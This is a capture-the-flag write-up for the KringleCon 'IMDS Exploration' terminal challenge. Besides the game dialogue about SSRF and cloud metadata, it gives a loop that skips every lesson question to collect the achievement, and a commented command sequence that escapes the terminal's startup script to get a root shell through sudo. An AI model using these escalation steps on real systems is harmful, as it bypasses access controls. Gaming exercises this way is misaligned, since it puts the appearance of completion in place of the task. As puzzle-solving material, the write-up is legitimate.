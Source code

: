 # IMDS Exploration

**Elf**: Noxious O'Dor<br/>
**Direct link**: [imds terminal](https://docker2021.kringlecon.com/?challenge=imds&id=d560bf4a-afdb-49b9-be34-634845a8d14c)<br/>
**Objective**: [Now Hiring!](../objectives/o10.md)


## Request

!!! quote "Noxious O'Dor"
    Hey, this is the executive restroom. Wasn't that door closed?<br/>
    I'm Noxious O'Dor. And I've gotta say, I think that Jack Frost is just messed up.<br/>
    I mean, I'm no expert, but his effort to "win" against Santa by going bigger and bolder seems bad.<br/>
    You know, I'm having some trouble with this IMDS exploration. I'm hoping you can give me some help in solving it.<br/>
    If you do, I'll be happy to trade you for some hints on SSRF! I've been studying up on that and have some good ideas on how to attack it!<br/>


## Solution

??? abstract "Welcome message"
    ```text
    🎄🎄🎄 Prof. Petabyte here. In this lesson you'll continue to build your cloud asset skills,
    🎄🎄🎄 interacting with the Instance Metadata Service (IMDS) using curl.
    🎄🎄🎄
    🎄🎄🎄 If you get stuck, run 'hint' for assitance.
    🎄🎄🎄
    ```

This terminal takes you through what [IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is and how you can interact with the service by going over various sample `curl` commands. Instead of rehashing the same commands here and calling it a write-up, let's look at some other fun things we can do, like skipping past all the questions to get the achievement or elevating our privileges to *root*! :metal:

During Prof. Petabyte's lesson you're asked to type *next* a few times. This command actually works for every single question and so a one-liner like `for i in {1..18}; do next; sleep 1; done` will award you the achievement with minimal effort.

<iframe width="850" height="478" src="https://www.youtube.com/embed/eUDcs1jZ6us" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


!!! note "Getting root<span id="getting-root"></span>"
    Skipping past all the questions is fun, but getting a root shell is better! :partying_face:

    Start by using ++"Ctrl"++ + ++"c"++ to break out of the startup sequence. If you time it right you'll prevent the bottom pane from fully loading and end up logged in as the *init* user. In the user's home folder you'll find a [`tmuxp`](https://github.com/tmux-python/tmuxp) session configuration file (i.e., `mysession.yaml`), the `top_pane` and `bottom_pane` [setuid](https://en.wikipedia.org/wiki/Setuid) binaries that are run in each `tmux` pane, and a `questions_answers.json` file.

    During terminal startup there's an `/etc/sudoers` file present with an entry for the *elfu* user. However, as `top_pane` parses `questions_answers.json` and loads the data for the first question, it'll execute 2 additional commands, one being `sudo rm /etc/sudoers` which removes *elfu*'s `sudo` permissions again. 

    To get a root shell, open a new `tmux` window using ++"Ctrl"++ + ++"b"++ ++"c"++ (line 2), kill the old processes (lines 3-5), take ownership of the files so we can edit them (lines 6-9), change the session name in `mysession.yaml` (line 10), edit `questions_answers.json` so it doesn't delete `/etc/sudoers` (line 11), and load `mysession.yaml` to initialize everything again (line 12). We've now switched to the *elfu* account but with the `/etc/sudoers` file still in place, meaning `sudo bash` will give us our root shell.

    ```shell linenums="1" title="Terminal commands"
    # ctrl+c out of the startup sequence
    # ctrl+b c to open a new tmux window
    ps ax  # list all processes
    kill -9 43  # kill the old top pane bash process
    kill -9 79  # kill the old bottom pane bash process
    cp questions_answers.json questions_answers_copy.json  # create a writable copy
    mv -f questions_answers_copy.json questions_answers.json  # rename the file to replace the original
    cp mysession.yaml mysession_copy.yaml  # create a writable copy
    mv -f mysession_copy.yaml mysession.yaml  # rename the file to replace the original
    sed -i 's/ElfU/Elfu2Root/g' mysession.yaml  # edit the session name to Elfu2Root
    pico questions_answers.json  # remove the "sudo rm /etc/sudoers" line (e.g., pico, vi)
    tmuxp load mysession.yaml  # load the tmux session again
    sudo bash  # leverage elfu's sudo permissions
    ```

    Putting all of the above into practice looks something like this.

    <iframe width="850" height="478" src="https://www.youtube.com/embed/CfUc4lBr_Ts" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>


## Response

!!! quote "Noxious O'Dor"
    Phew! That is something extra! Oh, and you solved the challenge too? Great!<br/>
    Cloud assets are interesting targets for attackers. Did you know they automatically get IMDS access?<br/>
    I'm very concerned about the combination of SSRF and IMDS access.<br/>
    Did you know it's possible to harvest cloud keys through SSRF and IMDS attacks?<br/>
    Dr. Petabyte told us, "anytime you see URL as an input, test for SSRF."<br/>
    With an SSRF attack, we can make the server request a URL. This can reveal valuable data!<br/>
    The [AWS documentation for IMDS](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) is interesting reading.
